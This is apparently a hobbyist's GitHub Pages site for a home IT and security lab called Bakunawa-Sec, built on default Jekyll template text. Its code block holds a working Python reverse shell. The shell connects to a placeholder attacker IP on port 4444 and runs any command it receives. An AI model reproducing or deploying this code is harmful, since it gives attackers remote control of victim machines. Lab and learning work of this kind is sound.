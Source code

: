 ## Welcome to Jong Pairez GitHub Page

Jong Pairez is a Tech Support with a background in Research and Design. He integrates artistic practice with end-user computing by applying creative approaches in working around technology. He loves listening to Death Metal and enjoys hacking inexpensive single-board-computers to simulate recent vulnerabilities in Enterprise IT Infrastructures. This GitHub page is his simple laboratory for Bakunawa-Sec. 

### Bakunawa-Sec

Bakunawa-Sec is a simple IT solutions laboratory for end user computing. It is also an open-learning space for amateur IT Help Desk who are interested in free and open-source technology. Bakunawa-Sec builds, tests, and deploy tools for fun.

- Home Virtual Laboratory Servers
- Network Engineering
- Experimental Automation Projects
- Software/Hardware Reverse Engineering
- Troubleshooting and Bug Hunting
- IT Service Delivery

Open for collab!

```markdown

##   _   _   _   _   _   _   _   _   _   _   _   _  
##  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
## ( b | a | k | u | n | a | w | a | - | s | e | c )
##  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 
##

#!/bin/bash/py
# Connect Back

import socket
import subprocess

SERVER_HOST = "<IP Address of Attacker>"
SERVER_PORT = 4444
BUFFER_SIZE = 1024

#Create socket and connect to the server
s = socket.socket()

#Connect to server (banana one)
s.connect((SERVER_HOST, SERVER_PORT))

#Receive check message
message = s.recv(BUFFER_SIZE).decode()
print("Server:", message)

#The LOOP
while True:
    #Receive command from server
    command = s.recv(BUFFER_SIZE).decode()
    if command.lower() == "exit":
        #If the command is exit, just break out from the loop
        break

    #Execute command and retrieve results
    output = subprocess.getoutput(command)

    #Send results back to the server (banana-one)
    s.send(output.encode())

#Close client connection
s.close()

[Link](url) and ![Image](src)
```
For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

`This is a code`

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/bakunawa-ops/Bakunawa-Sec/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.

